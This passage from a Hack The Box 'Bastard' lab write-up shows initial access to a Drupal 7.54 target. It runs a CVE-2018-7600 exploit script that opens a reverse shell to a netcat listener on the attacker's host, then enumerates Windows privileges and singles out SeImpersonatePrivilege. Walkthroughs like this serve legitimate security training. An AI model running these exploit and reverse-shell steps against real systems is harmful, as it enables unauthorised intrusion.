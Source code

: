 ## Initial access
Everything is set to catch our reverse shell. Now we can run the exploit
```bash
┌──(emvee㉿kali)-[~/Documents/HTB/Bastard/CVE-2018-7600]
└─$ python3 exploit.py http://$ip 10.10.14.20 1234
[ + ] Sending in the first payload...
[ + ] Payload was sent.
---------------------------------------------------------------------------
[...] Executing payload, check your listener.

```

The exploit have been succesfully run, now we should check our netcat listener to see if we have a connection.
```bash
┌──(emvee㉿kali)-[~/Documents/HTB/Bastard]
└─$ rlwrap nc -lvp 1234
listening on [any] 1234 ...
10.129.51.177: inverse host lookup failed: Unknown host
connect to [10.10.14.20] from (UNKNOWN) [10.129.51.177] 60998

```
Since the connection has been established we should first see who we are on the target.

```
whoami
nt authority\iusr
PS C:\inetpub\drupal-7.54> 

```
It looks like we are `nt authority\iusr`. The `NT AUTHORITY\IUSR` is a built-in Windows account that is the default identity used when Anonymous Authentication is enabled for an application. This page describes the rationale for the account. More information about this account can be found on [Microsoft](https://learn.microsoft.com/en-us/iis/get-started/planning-for-security/understanding-built-in-user-and-group-accounts-in-iis).

Let's check what privileges this user has with the `whoami /priv` command.

```
PS C:\inetpub\drupal-7.54> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name          Description                               State  
======================= ========================================= =======
SeChangeNotifyPrivilege Bypass traverse checking                  Enabled
SeImpersonatePrivilege  Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege Create global objects                     Enabled
PS C:\inetpub\drupal-7.54> 

```
As expected one of the  privileges is: 
- `SeImpersonatePrivilege`
